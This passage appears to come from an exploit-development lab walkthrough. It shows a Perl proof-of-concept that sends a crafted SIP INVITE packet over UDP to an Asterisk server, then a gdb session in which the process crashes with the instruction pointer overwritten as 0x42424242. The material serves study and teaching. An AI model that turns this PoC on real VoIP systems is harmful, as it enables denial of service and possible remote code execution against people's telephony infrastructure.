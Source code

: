 ```
Call-ID: aaaaaaaa-aaaa-aaaaaaa-aaaa-aaaaaaaaaaaa\@localhost
To: <sip:200@localhost>
Allow: INVITE,ACK,OPTIONS,BYE,CANCEL,NOTIFY,REFER,MESSAGE
Content-Type: application/sdp
Content-Length: $sip_length
Max-Forwards: 70

$sip_packet
END

print "Packet\n$packet\n";

print "Sending Packet to: " . $target . "\n\n";
socket(SOCK, PF_INET, SOCK_DGRAM, getprotobyname("udp"));
my $ipaddr = inet_aton($target);
my $sendto = sockaddr_in($target_port, $ipaddr);
send(SOCK, $packet, 0, $sendto) == length($packet) or die "cannot send to $target : $target_port : $!\n";
print "Sent.\n";
```

Lets run the PoC and see what happens in the debugger. We have to attach to the
second asterisk process `/usr/bin/asterisk`, not the shell script `start_asterisk`.
After a crash, asterisk will automatically restart in a few seconds.

```
user@tinysploit2:~$ ps axw | grep -i ast
 1187 root       0:00 {start_asterisk} /bin/sh /usr/bin/start_asterisk
 1189 asterisk   0:00 /usr/bin/asterisk -U asterisk -v
 1271 user       0:00 grep -i ast
user@tinysploit2:~$ gdb
(gdb) attach 1189
Attaching to process 1189
(gdb) c
Continuing.
[New LWP 1206]

Program received signal SIGSEGV, Segmentation fault.
[Switching to LWP 1206]
0x42424242 in ?? ()
(gdb)
(gdb) i r
eax            0x0	0x0
ecx            0x8000e	0x8000e
edx            0x815e320	0x815e320
ebx            0x41414141	0x41414141
esp            0xb7353bc0	0xb7353bc0
ebp            0x41414141	0x41414141
esi            0x41414141	0x41414141
edi            0x41414141	0x41414141
eip            0x42424242	0x42424242
eflags         0x10246	[ PF ZF IF RF ]
cs             0x73	0x73
ss             0x7b	0x7b
ds             0x7b	0x7b
es             0x7b	0x7b
fs             0x0	0x0
gs             0x33	0x33
```
